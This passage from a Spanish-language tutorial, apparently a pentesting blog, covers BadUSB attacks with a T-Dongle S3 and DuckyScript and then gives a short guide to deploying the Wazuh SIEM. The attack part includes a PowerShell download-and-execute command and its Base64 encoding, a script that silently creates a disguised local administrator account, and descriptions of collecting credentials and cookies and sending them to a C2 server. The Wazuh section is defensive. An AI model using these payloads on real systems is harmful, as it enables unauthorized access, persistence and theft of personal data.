Inserta y navega: Introduce la SD en el dongle. Usando el botón físico y la pantalla LCD a color, navega por el menú del dispositivo, selecciona la opción de "Payloads" o "SD Card" y elige el script que quieras ejecutar.
Programación de payloads en DuckyScript
El DuckyScript es un lenguaje de scripting simple que permite automatizar la inyección de pulsaciones de teclado. Cada línea del script representa una acción específica, como escribir texto, presionar teclas especiales o introducir retrasos.
❏ Ejemplo de un payload básico, para abrir una consola de PowerShell como administrador:
❏ Ahora se tiene el ejemplo de un payload que descarga y ejecuta un archivo malicioso (que en este caso es una simple imagen):
El BadUSB está enviando las pulsaciones de teclas basándose en la distribución de un teclado en Inglés (US), pero la computadora víctima tiene configurado un teclado en Español (Latinoamericano o España). Debido a esto, los símbolos especiales (como las comillas ", los dos puntos :, los guiones -, etc.) cambian de posición y el ordenador de la víctima interpreta otra cosa totalmente distinta (por eso te escribe @ en lugar de ").
Los pentesters profesionales evitan escribir símbolos complejos en los BadUSB porque cada país e Idioma cambia el teclado. La solución definitiva es codificar el comando completo de PowerShell en Base64.
Como el Base64 solo utiliza letras (mayúsculas y minúsculas) y números (0-9), se escribe exactamente igual en cualquier teclado del mundo, sin importar si la víctima está en español, inglés, francés o japonés.
PS C:\Users\Ryuzak1> $command = 'Invoke-WebRequest -Uri https://detective-ryuzak1.github.io/media/hack2.png -OutFile C:\ProgramData\malware1.png; Start-Process C:\ProgramData\malware1.png'
PS C:\Users\Ryuzak1> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($command))
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAcwA6AC8ALwBkAGUAdABlAGMAdABpAHYAZQAtAHIAeQB1AHoAYQBrADEALgBnAGkAdABoAHUAYgAuAGkAbwAvAG0AZQBkAGkAYQAvAGgAYQBjAGsAMgAuAHAAbgBnACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwAbQBhAGwAdwBhAHIAZQAxAC4AcABuAGcAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIABDADoAXABQAHIAbwBnAHIAYQBtAEQAYQB0AGEAXABtAGEAbAB3AGEAcgBlADEALgBwAG4AZwA=
Incluso si logras abrir una terminal con privilegios de Administrador mediante un script o un dispositivo BadUSB, Windows cuenta con una función llamada Protección contra alteraciones (activa por defecto).
Esta característica bloquea cualquier intento de scripts, comandos de PowerShell, herramientas de terceros o modificaciones en el Registro para desactivar Windows Defender.
Como por comandos está blindado contra modificaciones externas, la única forma de desactivarlo para que tus scripts de prueba o payloads corran sin interferencias es hacerlo manualmente utilizando únicamente combinaciones de teclas.
❏ Ejemplo de payload encriptado en base64:
❏ Crear un nuevo usuario local con privilegios de Administrador de forma silenciosa
$Username = "SoporteTecnico"
$Password = ConvertTo-SecureString "PasswordSeguro123!" -AsPlainText -Force
New-LocalUser -Name $Username -Password $Password -FullDescription "Cuenta de mantenimiento del sistema"
Add-LocalGroupMember -Group "Administradores" -Member $Username
Para evitar errores de teclado con los símbolos especiales, utiliza la técnica de codificación en Base64 (UTF-16LE) que vimos anteriormente.
¿Cómo guardar datos recolectados en la memoria del dispositivo?
El T-Dongle S3 tiene 16MB de flash interna + ranura para microSD. Pero el firmware USB Army Knife no permite guardar el "loot" (credenciales, WiFi profiles, cookies, etc.). Pero se cuenta con formas de intentarlo:
a) Modo Almacenamiento Masivo (USB Mass Storage / UMS)
❏ En tu payload, al principio del ataque, incluyes un comando que cambia el modo USB:
El dongle se "reconecta" al PC como si fuera un pendrive; el payload (o el firmware automáticamente) guarda los archivos recolectados en una carpeta /loot/ dentro de la SD, y luego abres el "pendrive" desde el PC y copias los archivos.
b) Guardado directo en la SD durante el ataque
En lugar de montar la SD como una unidad de disco normal de Windows (como un pendrive tradicional que aparece en el explorador de archivos), el firmware utiliza un comando dinámico en PowerShell para buscar qué letra de unidad le asignó Windows automáticamente al almacenamiento del dispositivo en el preciso instante en que se conecta.
❏ En tu DuckyScript, puedes hacer que el payload ejecute un script en la SD usando comandos como:
❏ Script de recopilación de datos y almacenado en la SD:
❏ Script de recopilación de cookies y almacenado en la SD:
c) Exfiltración por Wi-Fi (sin tocar el PC)
❏ Si el dongle tiene el AP activo o está conectado a tu red, puedes enviar los datos por HTTP/FTP:
Así recibes los datos en la interfaz web del dongle o en tu servidor C2 sin necesidad de extraer la SD.

Wazuh
Wazuh es una plataforma de seguridad de código abierto muy potente, clasificada como una solución SIEM (Information and Event Management) y XDR (Extended Detection and Response). Su propósito principal es unificar la visibilidad de la seguridad, la detección de amenazas y el cumplimiento normativo en infraestructuras locales, virtualizadas o basadas en la nube.
¿Para qué sirve?
Wazuh actúa como un "centinela" digital para las redes y servidores de una organización. Sus capacidades principales incluyen:
- ▱
Monitoreo de la integridad de archivos (FIM): Detecta cambios no autorizados en archivos críticos, configuraciones o registros del sistema operativo para identificar modificaciones maliciosas o accidentales. - ▱
Detección de intrusiones (HIDS): Identifica software malicioso, rootkits, puertas traseras (backdoors) y anomalías de comportamiento en los equipos monitoreados. - ▱
Análisis de registros (Log Analysis): Recopila, normaliza, indexa y analiza registros (logs) de sistemas operativos, cortafuegos y aplicaciones para buscar patrones sospechosos. - ▱
Detección de vulnerabilidades: Escanea los equipos en busca de paquetes de software desactualizados o con fallas de seguridad conocidas (CVEs). - ▱
Auditoría de cumplimiento: Evalúa las configuraciones de los sistemas frente a estándares de seguridad industriales y normativas regulatorias (como PCI-DSS, HIPAA, GDPR, etc.).
¿Cómo se usa?
Wazuh funciona bajo una arquitectura cliente-servidor y consta principalmente de tres componentes que trabajan en conjunto:
El Agente de Wazuh (Wazuh Agent): Es un software ligero que se instala en los endpoints o servidores que deseas proteger (compatibles con Windows, Linux, macOS, contenedores, etc.). Su trabajo es vigilar el equipo local y enviar la telemetría al servidor.El Servidor Wazuh (Wazuh Server/Manager): Es el componente central que recibe los datos de los agentes, los analiza en tiempo real utilizando motores de reglas y genera las alertas de seguridad.El Indexador y Panel de Wazuh (Wazuh Indexer & Dashboard): Es la interfaz gráfica basada en web. Aquí es donde los administradores y analistas de seguridad visualizan las alertas mediante gráficos interactivos, consultan los reportes y buscan eventos específicos de forma intuitiva.

Despliegue del Servidor
El provisionamiento del stack de Wazuh requiere un entorno de virtualización a nivel de sistema operativo (Docker) en el host. La arquitectura se despliega mediante la orquestación de contenedores con Docker Compose, garantizando el aislamiento de recursos, la reproducibilidad del entorno y la correcta comunicación entre los microservicios que componen la solución de seguridad.
Para desplegar el servidor Wazuh, busca Docker Desktop y ábrelo. Y luego sigue los pasos de configuración.
Accede a la interfaz en http://localhost (Creds: admin / SecretPassword). Para monitorizar el endpoint, ve a la sección "Agents" > "Deploy new agent", selecciona tu sistema operativo, pon la IP del host a monitorizar, selecciona el grupo default y copia el comando de instalación que te proporciona la interfaz, y ejecuta en modo Administrador.
